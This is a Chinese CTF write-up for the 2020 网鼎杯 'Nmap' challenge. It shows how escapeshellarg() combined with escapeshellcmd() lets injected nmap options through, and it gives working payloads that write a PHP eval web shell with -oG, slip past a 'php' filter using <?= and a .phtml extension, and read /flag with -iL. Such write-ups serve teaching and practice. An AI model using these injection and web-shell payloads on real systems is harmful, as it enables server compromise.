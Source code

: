 # \[网鼎杯 2020 朱雀组]Nmap

## \[网鼎杯 2020 朱雀组]Nmap

## 考点

* Nmap使用
* escapeshellarg()+escapeshellcmd() 之殇
* 文件上传bypass
  * `phtml`绕过php黑名单
  * `<?=`绕过php黑名单

## wp

抓包可以看到请求的内容为`host=127.0.0.1`，没有其他东西。

* 传入`127.0.0.1' -o xxxx`，提示hostname是`127.0.0.1\`，访问xxxx无结果
* 传入`127.0.0.1 -o xxxx'`提示hostname是`127.0.0.1 -o xxxx\'`，访问xxxx无结果
* 传入`'127.0.0.1 -o xxxx '`，提示`Host maybe down`
* 访问xxxx，发现语句如下

```
nmap -Pn -T4 -F --host-timeout 1000ms -oX xml/47cae -o xxxx \127.0.0.1 \\
```

这就和[\[BUUCTF 2018\]Online Tool](buuctf-2018-online-tool.md)一样，那传入`127.0.0.1' -o xxxx`，应该访问`xxxx'`

使用同样的payload，提示`Hacker...`

```
'<?php eval($_POST["a"]);?> -oG shell.php '
```

测试发现过滤了php，`<?php`可以使用`<?=`绕过，写入的shell文件后缀可以使用`phtml`绕过

```
'<?=eval($_POST[1]);?> -oG shell.phtml '
```

蚁剑连接或者直接连接即可。

在Nmap中还有一个参数`-iL`是从文件中加载URL，也就是说，可以利用这一点进行文件读取

```
127.0.0.1' -iL /flag -o xxxx
```

![](<../../.gitbook/assets/image (1) (1).png>)

## 小结

1. [PHP escapeshellarg()+escapeshellcmd() 之殇](https://paper.seebug.org/164/)
2. 类似[\[BUUCTF 2018\]Online Tool](buuctf-2018-online-tool.md)



